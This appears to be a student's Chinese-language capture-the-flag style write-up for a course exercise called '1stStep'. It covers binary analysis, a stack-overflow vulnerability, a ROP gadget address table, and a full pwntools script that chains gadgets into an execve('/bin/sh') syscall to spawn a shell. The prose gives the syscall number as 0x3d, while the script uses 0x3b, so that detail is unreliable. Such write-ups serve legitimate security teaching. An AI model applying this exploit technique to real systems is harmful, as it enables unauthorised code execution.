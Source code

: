 ### 1stStep

#### 考点

- ida、ROPgadget工具的使用
- 多次栈溢出攻击的原理的理解
- 对汇编语言的理解

#### 解题过程

- 使用`checksec、file`工具查看文件`./1stStep`信息：

![checksec](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\1stStep\images\checksec.png)

![file](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\1stStep\images\file.png)

​		可见`./1stStep`文件为64位程序，启动了DEP保护，使用静态链接。

- 使用`ida`工具打开文件，进行反编译，`main`函数如下，可见main函数内有两个函数banner、vuln，查看两个函数内部逻辑。

  `main`

![main](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\1stStep\images\main.png)

​		`banner`：输出提示信息

![banner](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\1stStep\images\banner.png)

​		`vuln`：接收用户输入，`read`函数存在栈溢出漏洞。

![vuln](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\1stStep\images\vuln.png)

- 经过`ida`静态分析，发现文件内部并没有`system`和`"/bin/sh"`字符串可供利用，因此尝试通过寻找`syscall`函数来执行命令`exceve("/bin/sh", 0, 0)`，`exceve`命令为`0x3d`，`"/bin/sh"`命令可以通过`read`函数传入文件数据存储区域中（`.bss`或`.data`，要求可读可写）。通过`ida`工具获取重要地址，通过`ROPgadget`工具获取`pop rdi, ret`等片段的地址：

| 函数                | 地址               |
| ------------------- | ------------------ |
| `main`              | 0x0000000000400AA4 |
| `vuln`              | 0x0000000000400A6C |
| `read`              | 0x000000000043FDF0 |
| `syscall`           | 0x000000000043F435 |
| `mov rax rdi ; ret` | 0x0000000000417260 |
| `pop rdi; ret`      | 0x00000000004016e6 |
| `pop rsi; ret`      | 0x0000000000401807 |
| `pop rdx; ret`      | 0x00000000004432a6 |
| `"/bin/sh"`         | 0x00000000006CCC72 |
| `ret`               | 0x0000000000400AC2 |

- 进行栈溢出攻击的过程：首先在`vuln`函数处制造栈溢出，调用`read`函数将`"/bin/sh"`函数传入文件地址`0x00000000006CCC72`中，`payload1`构造为`b'a' * (0x20 + 8) + ret + pop rdi + 0 + pop rsi + bss_addr + pop rdx + 8 + read + main_addr`，然后继续制造栈溢出，调用`syscall`函数，执行命令，构造`payload2`为`b'a' * (0x20 + 8) + pop_rdi + 0x3b + mov_rax_rdi + pop rdi + "/bin/sh" addr + pop rsi + 0 + pop rdx + 0 + syscall `。

- 构造python脚本，如下，由于未查询到标准的`pop rax ; ret`片段，使用了`mov rax rdi ; ret`片段先赋值给rdi，然后再赋值给rax：

  ```python
  from pwn import *
  
  # 启动进程
  context(arch='amd64', log_level='debug')
  p = process('./1stStep')
  
  # 设置参数, payload
  mov_rax_rdi = 0x417260
  pop_rdi = 0x4016e6
  pop_rsi = 0x401807
  pop_rdx = 0x4432a6
  syscall = 0x43F435
  bss = 0x6CCC72
  vul = 0x400A6C
  read = 0x43FDF0
  ret = 0x400AC2
  main_addr = 0x400AA4
  
  # 第一次将"/bin/sh"写入内存
  p.recvuntil("Go explore and exploit here\x1B[0m")
  payload1 = flat(b'A'*(0x20 + 8), ret, pop_rdi, 0, pop_rsi, bss, pop_rdx, 8, read, main_addr)
  
  p.send(payload1)
  p.send("/bin/sh\x00")
  
  # 然后进行ROP攻击
  p.recvuntil("Go explore and exploit here\x1B[0m")
  # gdb.attach(p, "b *0x400AA2")
  payload2 = flat(b'A'*(0x20 + 8), pop_rdi, 0x3b, mov_rax_rdi, pop_rdi, bss, pop_rsi, 0, pop_rdx, 0, syscall)
  p.send(payload2)
  p.interactive()
  ```

#### 结果

成功执行命令，如下图：

![result](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\1stStep\images\result.png)